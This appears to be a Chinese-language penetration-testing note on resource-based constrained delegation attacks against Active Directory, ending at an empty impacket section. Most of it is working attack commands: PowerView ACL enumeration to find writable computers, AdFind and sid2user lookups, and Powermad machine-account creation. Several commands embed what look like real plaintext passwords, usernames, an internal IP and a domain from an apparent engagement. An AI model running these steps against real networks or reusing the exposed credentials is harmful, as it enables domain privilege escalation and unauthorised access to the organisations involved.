 ```yaml
---
title: "基于资源的约束委派攻击"
date: 2023-09-28 08:30:23 +0800
category: 渗透测试
tags: [内网,渗透测试,域]
excerpt: 基于资源的约束委派攻击
---
```

## 条件
+ msDS-AllowedToActOnBehalfOfOtherIdentity
默认情况下,只有添加这个计算机的域用户和计算机本身可以修改msDS-AllowedToActOnBehalfOfOtherIdentity这个属性
而设置委派的必须是一个SPN账户,域内机器默认就是,理论上域内的服务用户也可以(只要具有SPN记录)
### Account Operators组
+ 获得的用户在Account Operators组
		其实获得域用户之后就可以查看这个域用户对哪些机器有写权限
	假设获取到的用户是sp3dadmin  密码是s.3d~
	可以使用 powerview的 Get-DomainObjectAcl 
## 查看是否对机器有写权限
```
Import-Module .\powerview.ps1
//查询sp3dadmin的SID
Get-DomainUser -Identity sp3dadmin -Properties objectsid
//查看是否有对Archives2有写权限
Get-DomainObjectAcl -Identity HLSPRDDB02.s.com  | ?{$_.SecurityIdentifier -match "liming的SID"}
//查看域内有可写权限得主机
Get-DomainObjectAcl | ?{$_.SecurityIdentifier -match "S-1-5-21-1648181978-695183694-701290457-8562"}
//认证
$SecPassword = ConvertTo-SecureString 'Cmx10086*' -AsPlainText -Force ; $Cred = New-Object System.Management.Automation.PSCredential('it.ln.cmcc\caomingxing', $SecPassword) ; Get-DomainUser -Domain it.ln.cmcc -Server 10.204.41.8 -Identity caomingxing -Properties objectsid -Credential $Cred
//查看域内有可写权限得主机
powerpick $SecPassword = ConvertTo-SecureString '1qaz@WSX' -AsPlainText -Force ; $Cred = New-Object System.Management.Automation.PSCredential('it.ln.cmcc\DW-WANGYONGGANG', $SecPassword) ; Get-DomainObjectAcl -Domain it.ln.cmcc -Server 10.204.41.8 -Credential $Cred| ?{$_.SecurityIdentifier -match "S-1-5-21-1352180223-1996502029-1454869117-43953"} 


//查找哪个机器是哪个用户加入域的
AdFind.exe -h ldapIP(dcIP) -u 用户名 -up 密码 -b "DC=shigophilo,DC=com" -f "objectClass=computer" mS-DS-CreatorSID
//查询sid对应的用户名
///sid2user.exe 工具查询，需要把 - 去掉
sid2user.exe \\192.168.10.2  5 21 587556175 550635965 2643831430 1107
///域用户可以查询域内所有账户的sid值
wmic useraccount get /all | findstr  S-1-5-21-587556175-550635965-2643831430-1107 > 2.txt

```
## 创建机器账号
+ powermad.ps1
```
//创建机器帐号:0shigophilo 密码:shigophilo@123
Import-Module .\powermad.ps1
New-MachineAccount -MachineAccount 0shigophilo -Password $(ConvertTo-SecureString "shigophilo@123" -AsPlainText -Force)
```
+ impacket
```
//会随机生成机器名和密码,也可以指定
```